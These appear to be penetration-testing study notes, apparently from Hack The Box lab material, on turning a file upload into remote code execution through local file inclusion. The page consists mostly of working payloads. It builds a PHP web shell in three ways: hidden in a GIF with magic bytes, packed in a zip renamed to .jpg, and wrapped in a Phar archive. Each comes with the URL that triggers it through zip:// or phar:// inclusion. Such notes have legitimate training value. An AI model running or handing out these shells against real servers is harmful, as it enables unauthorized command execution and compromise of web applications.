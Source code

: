If we can upload files and the function has code Execute capabilities we can upload a file with any extension but with the code we want (for example PHP code), a table of functions which allow execution can be found at [[Attacks/Web/File Inclusion/Local File Inclusion (LFI)/Intro]].

## Image Upload

### Crafting Malicious Image

Example of creating a malicious gif file with his magic bytes at the beginning:
```shell-session
Wildland4958@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

### Uploaded File Path

In most case after uploading the file we would be able to see the uploaded path directly or through the source code, we can also try to fuzz for the uploads directory if not.

Execute the code:
```url
http://<SERVER_IP>:<PORT>/index.php?language=./<upload path>&cmd=id
```

## Zip Upload

In case the previous technique doesn't work we can try this one (only works for PHP).

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute code which isn't enabled by default.

Start by creating a script and zipping it:
```shell-session
Wildland4958@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Include the file after uploading:
```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./<file path>%23shell.php&cmd=id
```

## Phar Upload

To use the Phar wrapper first write the following code to a `shell.php` file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile the file and change his name:
```shell-session
Wildland4958@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Include the file after uploading:
```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./<file path>%2Fshell.txt&cmd=id
```